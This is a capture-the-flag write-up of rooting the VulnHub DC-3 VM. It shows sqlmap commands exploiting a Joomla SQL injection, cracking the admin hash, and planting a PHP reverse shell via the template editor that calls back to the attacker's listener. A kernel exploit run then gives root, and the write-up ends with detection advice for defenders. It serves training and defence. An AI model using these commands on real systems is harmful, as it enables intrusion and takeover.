# VulnHub DC-3: Joomla SQLi to root via eBPF double-fdput

## Objective

Full compromise of VulnHub's "DC: 3" boot2root VM, running on an isolated VirtualBox
host-only network against my own Kali attack box. One flag, root required, no other hints given
by the box.

## What I did

1. Host discovery and a full TCP service/version scan against the target:
   ```
   nmap -sn 192.168.56.0/24
   nmap 192.168.56.115 -A
   ```
   Only TCP/80 open — Apache 2.4.18 (Ubuntu), fingerprinted by `http-generator` as Joomla.

2. Added a hosts-file entry (`192.168.56.115 dc-3`) and enumerated content:
   ```
   gobuster dir -u http://dc-3 -w /usr/share/wordlists/dirb/common.txt
   joomscan -u http://dc-3
   ```
   Confirmed Joomla **3.7.0**, admin panel at `/administrator/`, directory listing exposed on
   several `administrator/*` and `images/banners` paths, no `robots.txt`.

3. Joomla 3.7.0 is vulnerable to a pre-authentication SQL injection in the `com_fields`
   component (CVE-2017-8917 / EDB-42033), via the `list[fullordering]` parameter on the
   `fields` view. Confirmed and exploited with sqlmap:
   ```
   sqlmap -u "http://192.168.56.115/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
     --risk=3 --level=5 --random-agent --dbs -p "list[fullordering]"
   ```
   Both an error-based (`UPDATEXML`) and a time-based blind injection point were confirmed.
   Backend: MySQL on Ubuntu 16.04/16.10. Five databases enumerated, `joomladb` being the
   target.

4. Dumped the Joomla users table via the same injection point:
   ```
   sqlmap -u "..." --risk=3 --level=5 --columns --dump -p "list[fullordering]"
   sqlmap -u "..." --risk=3 --level=5 --password,username --dump -p "list[fullordering]"
   ```
   Recovered one admin account: username `admin`, bcrypt password hash — `[REDACTED]`.

5. Cracked the bcrypt hash against a public hash-lookup service (resolved instantly, so I
   didn't need to spin up hashcat/john locally) — `[REDACTED]`.

6. Logged into `/administrator` with the recovered credentials. Joomla lets an authenticated
   admin edit template PHP files directly under System → Templates → Templates → Editor —
   anything saved there is written straight to disk under `templates/<name>/` and served over
   HTTP, which is a direct authenticated-RCE primitive with no further vulnerability needed.
   Took the standard pentestmonkey `php-reverse-shell.php`, pointed `$ip`/`$port` at my Kali box
   (192.168.56.102:4444), created a new file through the Beez3 template's editor, and saved it.

7. Started a listener and triggered the shell over HTTP:
   ```
   nc -nvlp 4444
   ```
   Browsing to the deployed PHP file (served under the `protostar` template path) returned a
   reverse connection once the listener was up — the first attempt, before the listener was
   started, failed with "connection refused" as expected.
   ```
   connect to [192.168.56.102] from (UNKNOWN) [192.168.56.115] 35072
   uid=33(www-data) gid=33(www-data) groups=33(www-data)
   ```

8. Basic enumeration as `www-data`: `/etc/passwd` shows one interactive user, `dc3`
   (uid 1000); kernel is `4.4.0-21-generic` — an Ubuntu 16.04-era kernel, which is a known
   local-root candidate.

9. Privilege escalation via the eBPF `bpf(BPF_PROG_LOAD)` double-`fdput()` local root exploit
   for Ubuntu 16.04 / kernel 4.4.x (CVE-2016-4557, EDB-39772):
   ```
   tar -xf exploit.tar
   cd ebpf_mapfd_doubleput_exploit
   ./compile.sh      # pointer-size cast warnings only, not fatal
   ./doubleput
   # woohoo, got pointer reuse
   # we have root privs now...
   # uid=0(root) gid=0(root) groups=0(root),33(www-data)
   ```

10. Confirmed root: `cd /root && cat the-flag.txt` — the box's own completion message, no
    `flag{}`-style token to capture.

## What I found

A full compromise chain from an unauthenticated SQL injection to root, with every step after
the initial SQLi being avoidable on its own:

- Joomla 3.7.0's `com_fields` component is injectable pre-auth (CVE-2017-8917).
- The admin account used a dictionary-guessable password behind its bcrypt hash — the SQLi only
  got me the hash, the weak password is what actually broke the account.
- Joomla's built-in template editor turns any admin login into unauthenticated-equivalent RCE —
  this isn't a bug, it's intended functionality that has no business being left reachable.
- The kernel (4.4.0-21) was vulnerable to a public, pre-built local-root exploit.

## How I found it

**Recon and SQLi confirmation**












**Dumping and cracking credentials**







**Authenticated RCE via the template editor**













**Shell, enumeration, privesc to root**










## Detection

This chain leaves a distinct trail at every stage:

- **Pre-auth SQLi (CVE-2017-8917):** `UPDATEXML`/`SLEEP`-based payloads and repeated requests to
  `index.php?option=com_fields&view=fields&layout=modal` with a `list[fullordering]` parameter
  containing SQL keywords, in web server access logs. A WAF/IDS signature on `UPDATEXML(`,
  `SLEEP(`, or `SELECT.*FROM` inside the `list[fullordering]` query parameter would catch this
  specific CVE directly.
- **Credential cracking:** not something the target can log — this is an attacker-side step
  (bcrypt hash cracked offline/via a lookup service), so the only control here is password
  policy, not detection.
- **Template-editor web shell:** a `POST` to `/administrator/index.php?option=com_templates&...`
  followed shortly after by a new or modified `.php` file appearing under `templates/*/` that
  wasn't part of a normal extension install/update is a strong indicator. File-integrity
  monitoring on the Joomla `templates/` tree, or Joomla's own `#__action_logs` table (which
  records admin "User action" events including template edits), both surface this.
- **Reverse shell spawn:** `www-data` (the web server's own process) spawning `/bin/sh` or `nc`
  as a child process is almost never legitimate — classic EDR/Sysmon process-tree detection.
